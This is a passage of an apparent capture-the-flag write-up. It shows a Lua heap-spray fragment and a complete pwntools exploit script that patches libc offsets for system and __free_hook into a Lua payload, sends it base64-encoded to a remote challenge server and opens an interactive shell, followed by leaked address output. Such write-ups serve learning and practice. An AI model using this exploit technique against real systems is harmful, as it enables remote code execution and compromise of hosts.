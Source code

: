 ```Lua
end

for i = 1, 10 do
 foo = {system}
end

for i = 1, 100 do
 foo = {0x68732f6e69622f}
end
```

So the final exploit:
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *
from base64 import b64encode

# context.log_level = "DEBUG"

if __name__ == "__main__":
    libc = ELF("libc-2.27.so")

    system_offset = libc.symbols["printf"] - libc.symbols["system"]
    free_hook_offset = libc.symbols["__free_hook"] - libc.symbols["system"]

    with open("exploit.lua", "rb") as f:
        script = f.read()

    script = script \
        .replace(b"$SYSTEM_OFFSET$", bytes(hex(system_offset), "ascii")) \
        .replace(b"$FREE_HOOK_OFFSET$", bytes(hex(free_hook_offset), "ascii"))

    conn = remote("peerreview.sstf.site", 37714)
    # conn = process(["luqwest", "script.lua"])
    log.info("Connected")

    conn.recvuntil("» ")
    conn.sendline("L")
    conn.recvuntil(":")

    payload = b64encode(script)
    payload = [b"-----BEGIN GAME-----"] + \
              [payload[i:i + 76] for i in range(0, len(payload), 76)] + \
              [b"-----END GAME-----"]

    for x in payload:
        print(x.decode("ascii"))

        conn.recvuntil("» ")
        conn.sendline(x)

    log.info("Payload sent")

    conn.interactive()
```


[Lua]: printf@plt = 0x56208b430ed0
[Lua]: printf = 0x7fdc9ae87e40
[Lua]: system = 0x7fdc9ae72420
[Lua]: __free_hook = 0x7fdc9b2108e8